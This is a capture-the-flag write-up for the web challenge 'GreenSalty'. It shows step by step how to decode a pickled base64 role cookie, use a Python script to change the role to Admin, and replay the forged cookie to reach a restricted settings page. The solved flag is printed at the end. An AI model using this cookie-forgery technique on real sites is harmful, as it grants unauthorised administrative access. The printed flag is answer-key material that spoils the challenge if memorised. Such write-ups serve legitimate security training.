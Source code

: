 # Web/GreenSalty

### Challenge

- Category: Web
- Author: iLoop
- Description: Some like this on their burger.... People are strange, just ask Pondus
- Site: greensalt.io.ept.gg

### Writeup by
- hag

---

## Site

When we go to `greensalt.io.ept.gg` we find a login page.

![](01.png "")

After registering a new user with `a` as username and password, we can log in.

![](02.png "")

We look around the site and find the settings page which we can't access.

![](03.png "")


## Cookies and Session

Taking a look at the cookies in the developer tools we see the folling:

![](04.png "")

The `Role`-cookie seems interesting. The cookie data looks like `base64` encoded data.

Let's decode it:

```bash
$ echo "gASVOAAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwHRW5kVXNlcpSMBG5hbWWUjAFhlHViLg==" | base64 -d
��8�app�UserType���)��}�(�role��EndUser��name��a�ub.
```

We can see our `role` and `name` in there; `EndUser` and `a`,

This looks like some serialized data. Looking at the `server`-header we find `Werkzeug/2.0.1 Python/3.8.12`. After doing some research on serialization in Python and using the challenge description hint, I think the data has been serialized using `pickle`.

We most likely have an `Insecure Deserialization` vulnerability in this app.


## Python script (`app.py`)

By looking at the serialized data we can see that the username and role is serialized from a type looking something like this:

```python
class UserType(object):
	role = ""
	user = ""
```

Let's create a script and see if we can deserialize the `role`-cookie and modify it.

```python
import pickle
import base64

# UserType type that matches serialized data
class UserType(object):
	role = ""
	user = ""

# Decode base64 data in cookie
cookie_role = "gASVOAAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwHRW5kVXNlcpSMBG5hbWWUjAFhlHViLg=="
b = base64.b64decode(cookie_role)

# Deserialize using pickle
pd = pickle.loads(b)
print(pd)

# Change role to Admin
pd.role = "Admin"

# Re-serialize using pickle
pdd = pickle.dumps(pd)

# Output serialized data and base64 encoded serialized data
print(pdd)
print(base64.b64encode(pdd))
```

Now let's run it.

## Python script output

```bash
$ python3 app.py
<app.UserType object at 0x7ff44107e250>
b'\x80\x04\x956\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x08UserType\x94\x93\x94)\x81\x94}\x94(\x8c\x04role\x94\x8c\x05Admin\x94\x8c\x04name\x94\x8c\x01a\x94ub.'
b'gASVNgAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwFQWRtaW6UjARuYW1llIwBYZR1Yi4='
<app.UserType object at 0x7ff441197dc0>
b'\x80\x04\x956\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x08UserType\x94\x93\x94)\x81\x94}\x94(\x8c\x04role\x94\x8c\x05Admin\x94\x8c\x04name\x94\x8c\x01a\x94ub.'
b'gASVNgAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwFQWRtaW6UjARuYW1llIwBYZR1Yi4='
```

Let's take the new cookie data; `gASVNgAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwFQWRtaW6UjARuYW1llIwBYZR1Yi4=` and replace the cookie in the developer tools.

![](05.png "")

Now click `Settings` again. We can see the follwing at `https://greensalt.io.ept.gg/settings.html`:

![](06.png "")

## Flag

`EPT{Plant1ng_Gr33n_Th1ngs}`
